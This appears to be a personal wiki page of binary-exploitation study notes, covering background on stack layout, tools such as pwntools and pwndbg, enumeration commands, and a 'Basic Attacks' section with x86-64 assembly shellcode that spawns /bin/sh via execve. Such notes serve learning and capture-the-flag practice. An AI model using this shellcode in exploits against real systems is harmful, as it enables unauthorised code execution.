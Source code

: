 Navigation: [[Directory]]

---
Note that this entire page needs to be reformatted. It's currently a mess.

## Table of Contents
1. Background
2. Tooling List
3. Initial enumeration
4. Basic Attacks
5. Stack Protections
6. Return Oriented Programming
7. Heap Exploitation
8. 
## Background
Binary exploitation is a very technical thing. It requires us to have a background in understanding assembly, how programs work, and how to reverse engineer these programs. Below, you'll find either useful images or links to help assist on some of these topics.

Stack layout (Note that canaries are usually stored right before rbp)
![[Stack_Layout.png]]

## Tooling List
1. [PwnTools](https://github.com/Gallopsled/pwntools)
2. [PwnDBG](https://github.com/pwndbg/pwndbg)
## Initial Enumeration
Checking the security configuration of a file:
```
checksec --file=<file>
```

We can disassemble and dump an entire program by using
```
objdump -M intel -d <program>
```

We can dump addresses using
```
nm -a <program>
```

## Basic Attacks
#### Building Shellcode
Shellcode to spawn a shell:
``` assembly
.globl _start
_start:
.intel_syntax noprefix
	mov rax, 59            # syscall number of execve
	lea rdi, [rip+binsh]   # "/bin/sh"
	mov rsi, 0             # NULL
	mov rdx, 0             # NULL
	syscall                # execve("/bin/sh", NULL, NULL)
binsh:
	.string "/bin/sh"
```
